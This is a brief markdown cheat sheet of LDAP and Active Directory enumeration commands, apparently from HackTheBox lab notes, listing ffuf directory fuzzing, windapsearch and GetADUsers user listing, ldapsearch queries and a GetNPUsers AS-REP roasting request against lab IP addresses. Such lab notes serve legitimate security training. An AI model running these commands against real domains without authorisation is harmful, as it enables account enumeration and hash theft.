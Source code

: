 #### LDAP

- Tools:
  - ldapsearch
  - windapsearch
  - GetNPUsers.py
  - Evil-WinRM

- `./ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/FUZZ`
- `./windapsearch.py -d egotistical-bank.local --dc-ip 10.10.10.175 -U`
- `GetADUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -debug`
- `ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=htb,dc=local"`
- `python windapsearch.py -d domain.local --dc-ip 10.10.10.161 -U`
- `GetNPUsers.py domain.local/username -dc-ip 10.10.10.161 -no-pass`
